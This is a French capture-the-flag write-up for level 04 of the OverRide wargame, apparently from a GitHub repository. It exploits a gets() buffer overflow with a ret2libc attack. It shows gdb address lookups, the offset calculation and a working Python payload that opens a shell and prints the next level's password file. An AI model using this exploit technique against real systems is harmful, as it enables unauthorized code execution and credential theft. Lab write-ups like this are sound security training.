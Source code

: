 # Level 04

La fonction `gets` nous permet d'overflow simplement l'adresse de retour de la fonction.

L'utilisation de `ptrace` dans le programme nous empêche d'utiliser un shellcode avec le syscall `execve`

Nous pouvons utiliser un ret2libc qui consiste à remplacer l'adresse de retour par l'addresse de la fonction `system` et lui donner en argument l'adresse de la string `/bin/sh` déjà présente dans le binaire.

Nous obtenons les adresses dont nous avons besoin:

```
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
```

Donc `system` est à `0xf7e6aed0`

et `/bin/sh` est à `0xf7f897ec`

Nous calculons l'offset nécessaire pour ecrire à l'adresse de retour

Initialisation de la stack: `%esp = %esp - 0xb0 + 12`

```
    0x080486c8 <+0>:     push   %ebp
    0x080486c9 <+1>:     mov    %esp,%ebp
    0x080486cb <+3>:     push   %edi
    0x080486cc <+4>:     push   %ebx
    0x080486cd <+5>:     and    $0xfffffff0,%esp
    0x080486d0 <+8>:     sub    $0xb0,%esp
```

Adresse du buffer utilisé dans `gets` :  `%esp + 0x20`
```
    0x08048757 <+143>:   lea    0x20(%esp),%eax
```

Donc:
`0xb0 + 12 - 0x20 = 156`

```bash
level04@OverRide:~$ (python -c 'print "A"*156+"\xf7\xe6\xae\xd0"[::-1]+"AAAA"+"\xf7\xf8\x97\xec"[::-1]'; echo "cat /home/users/level05/.pass") | ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN

```
